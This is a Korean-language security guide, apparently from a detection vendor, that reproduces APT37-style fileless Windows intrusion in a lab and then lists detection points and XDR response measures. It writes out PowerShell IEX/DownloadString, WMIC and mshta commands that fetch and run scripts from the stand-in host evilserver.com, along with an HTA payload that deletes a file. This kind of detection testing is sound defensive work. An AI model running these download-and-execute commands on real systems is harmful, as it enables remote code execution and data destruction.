

# APT37(ScarCruft) 기반 Windows 침투 시나리오 — LOL 및 파일리스 공격

## 1. 시나리오 개요

APT37(ScarCruft)은 북한과 연관된 위협 그룹으로, 정부 기관 및 특정 산업체를 타겟으로 정교한 스피어 피싱과 LOL(Living Off the Land) 기법을 활용한 공격을 수행합니다. 본 문서는 APT37의 전술 중 하나인 파일리스 침투 기법을 가상 환경에서 재현합니다.

---

## 2. 테스트 환경 구축

### 📡 공격 서버

* 웹 서버(Nginx 또는 Apache) 구축 필요
* `MALSCRIPT.ps1`, `MALSCRIPT.hta` 등의 공격 스크립트 업로드 필요 (예: `/var/www/html/`)

### 🖥 피해 서버

* Windows Server 2016 이상
* PowerShell 5.0 이상
* 백신 및 실시간 보호 기능 비활성화
* PLURA 에이전트 설치되어 있어야 함
* 테스트용 삭제 대상 파일 존재: `C:\Program Files\important-file.txt`

---

## 3. APT37 공격 특성

* PowerShell, WMIC, Mshta, CertUtil, rundll32 등 LOLBin 적극 활용
* 디스크 기록 없이 메모리 내에서 실행되는 **파일리스 공격(fileless)** 선호
* 주로 스피어피싱 문서 내 매크로나 HTA 호출로 초기 침투 수행

---

## 4. 침투 시나리오 수행

### 🧪 단계별 공격 시연

#### ☠️ PowerShell을 활용한 파일리스 공격 (T1059.001)

```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://evilserver.com/MALSCRIPT.ps1')"
```

> `MALSCRIPT.ps1` 내용:

```powershell
Remove-Item 'C:\Program Files\important-file.txt'
```

📌 효과: 디스크에 흔적 없이 메모리 내에서 실행, 파일 삭제됨 → PLURA 탐지 가능

---

#### ⚙️ WMIC를 통한 원격 명령 실행 (T1047)

```cmd
wmic process call create "powershell -NoProfile -ExecutionPolicy Bypass -Command \"IEX (New-Object Net.WebClient).DownloadString('http://evilserver.com/MALSCRIPT.ps1')\""
```

📌 효과: 파일리스 명령 실행 → 로그에는 wmic와 powershell 호출 흔적 → PLURA에서 확인

---

#### 🧿 Mshta를 활용한 HTA 실행 (T1218.005)

```cmd
mshta http://evilserver.com/MALSCRIPT.hta
```

> `MALSCRIPT.hta` 내용:

```html
<script>
    var shell = new ActiveXObject("WScript.Shell");
    shell.Run("powershell -NoProfile -ExecutionPolicy Bypass -Command \"Remove-Item 'C:\\Program Files\\important-file.txt'\"");
</script>
```

📌 효과: Mshta 실행 → 피해 서버에서 계산기 또는 삭제 명령 수행 → 탐지 가능

---

## 5. APT37 전술에 자주 활용되는 LOLBin 예시

| 기법         | 설명                       | 탐지 포인트                    |
| ---------- | ------------------------ | ------------------------- |
| PowerShell | 메모리 내 명령 실행              | 비정상 IEX, `DownloadString` |
| Mshta      | HTA 파일 실행                | 원격 HTA 호출 로그              |
| WMIC       | 명령 실행                    | 프로세스 호출 체인 분석             |
| Rundll32   | Reflective DLL Injection | 비정상 dll 호출 감지             |
| CertUtil   | Base64 디코딩               | `-decode` 옵션 로그 확인        |

---

## 6. 공격 흐름도 (Mermaid)



---

## 7. PLURA-XDR 대응 방안

* PowerShell 비정상 호출 및 `DownloadString`, `IEX` 탐지 정책
* WMIC/Mshta 실행 로그 연계 분석
* LOLBin 명령어 시그니처 기반 행위 분석 정책
* 로그 수집/탐지 연계된 실시간 알림 설정

👉 [자세히](plura_waf_xdr_detection.md)
